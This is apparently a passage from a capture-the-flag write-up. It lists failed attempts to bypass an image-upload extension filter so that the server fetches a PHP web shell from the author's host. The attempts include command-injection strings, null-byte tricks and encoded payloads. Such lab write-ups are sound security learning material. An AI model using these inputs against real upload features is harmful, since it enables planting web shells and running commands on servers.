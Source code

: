 ![](/img/upload.png)

If you try to upload something ending in a non-image extension, you get:

![](/img/1526345623560.png)

Fails:

-   `http://10.10.15.99:8081/cmd.php'; echo png #` - error, no upload
-   `http://10.10.15.99:8081/cmd.php';test.png` - full string at http
    server
-   `http://10.10.15.99:8081/cmd.php;.jpg` - gets file, but only full
    path is accessible
-   `http://10.10.15.99:8081/cmd.php%00.jpg` - GET request makes it to
    server, but error there
-   Extension filter not done client side - catching request and
    modifying doesn't bypass
-   `http://10.10.15.99:8081/cmd.php%27%3b%20echo%20test%23.png` -
    request for full url
-   `http://10.10.15.99:8081/cmd.php #.png`- invalid url
-   `http://10.10.10.15.99:8081/cmd.php%27%3btest.png` - http server
    gets encoded chars in request
